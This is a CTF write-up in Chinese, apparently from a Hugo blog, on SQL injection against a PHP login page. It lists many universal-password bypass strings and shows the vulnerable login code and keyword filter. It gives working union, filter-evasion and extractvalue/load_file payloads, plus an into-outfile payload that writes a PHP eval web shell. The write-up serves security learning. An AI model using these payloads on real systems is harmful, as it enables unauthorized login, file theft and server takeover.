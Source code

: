 ```yaml
---
title: "SQL注入 Union 万能密码绕过登录验证"
date: 2022-07-19T08:48:13+08:00
draft: false
weight: 2
description: "SQL注入 Union 万能密码绕过登录验证"
images: []
resources:
- name: featured-image
  src: featured-image.jpg
- name: featured-image-preview
  src: featured-image.jpg

tags: ["CTF", "WEB","SQL注入"]
categories: ["documentation"]

lightgallery: true

---
```


SQL注入 Union 万能密码绕过登录验证

<!--more-->

## 常见的绕过登录验证方式：

### 万能密码：

```sql
' or 1='1
'or'='or'
admin
admin'--
admin' or 4=4--
admin' or '1'='1'--
admin888
"or "a"="a
admin' or 2=2#
a' having 1=1#
a' having 1=1--
admin' or '2'='2
')or('a'='a
or 4=4--
c
a'or' 4=4--
"or 4=4--
'or'a'='a
"or"="a'='a
'or''='
'or'='or'
1 or '1'='1'=1
1 or '1'='1' or 4=4
'OR 4=4%00
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
'or 4=4/*
something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1

```

### BurpSuite 弱口令爆破：

![bp](bp.jpg)

## 针对本次题目的解法总结：

### 查看登录验证源码：

```php
function check_login($user,$password){
	$rel=$GLOBALS['mysql']->fetch_asc("select id,admin_name,admin_password,admin_purview,is_disable from ".DB_PRE."admin where admin_name='".$user."' limit 0,1");	
	$rel=empty($rel)?'':$rel[0];
	if(empty($rel)){
		msg('不存在该管理用户','login.php');
	}
	$password=md5($password);
	if($password!=$rel['admin_password']){
		msg("输入的密码不正确");
	}
	if($rel['is_disable']){
		msg('该账号已经被锁定,无法登陆');
	}
	
	$_SESSION['admin']=$rel['admin_name'];
	$_SESSION['admin_purview']=$rel['admin_purview'];
	$_SESSION['admin_id']=$rel['id'];
	$_SESSION['admin_time']=time();
	$_SESSION['login_in']=1;
	$_SESSION['login_time']=time();
	$ip=fl_value(get_ip());
	$ip=fl_html($ip);
	$_SESSION['admin_ip']=$ip;
	unset($rel);
	header("location:admin.php");
}
```

可以判断是先验证用户名，然后通过用户名查询到结果来校验密码项，并且对传入的 password 参数进行了md5 加密，因此可以用 union 构造一个虚表覆盖掉查询结果，payload 如下：

```sql
admin' union select 1,1,md5('password'),1,0;#
```

其中 admin 和 password 可以是任意值，只需要在密码登录框填入相同的password 值即可；提交后发现被过滤了关键词：

![error](error.jpg)

### 查看源码发现过滤代码：

```php
function fl_value($str){
	if(empty($str)){return;}
	return preg_replace('/select|insert | update | and | in | on | left | joins | delete |\%|\=|\/\*|\*|\.\.\/|\.\/| union | from | where | group | into |load_file
|outfile/i','',$str);
}
```

### 重新构造 payload 即可成功登录：

```sql
admin' uni*on selselectect 1,1,md5('password'),1,0;#
```

### 因为出现了数据库报错，可以进一步利用报错注入：

查询数据库：

```sql
admin'^extractvalue(0x0a,concat(0x0a,(seselectlect database())));#
```

用 load_file() 获取flag：

```sql
1'^extractvalue(0x0a,concat(0x0a,(load_file('/flag'))));#
1'^extractvalue(0x0a,concat(0x0a,right((load_file('/flag')),30)));#
```

![flag_1](flag_1.jpg)

![flag2](flag2.jpg)

由于extractvalue(）返回长度限制，需要拼接得到 flag。

### 甚至可以使用 into outfile 写入一句话木马：

```sql
1'un*ion seselectlect 1,1,md5(1),'<?php @eval($_POST[1])?>',0 in*to ououtfiletfile '/var/www/html/shell.php';#
```
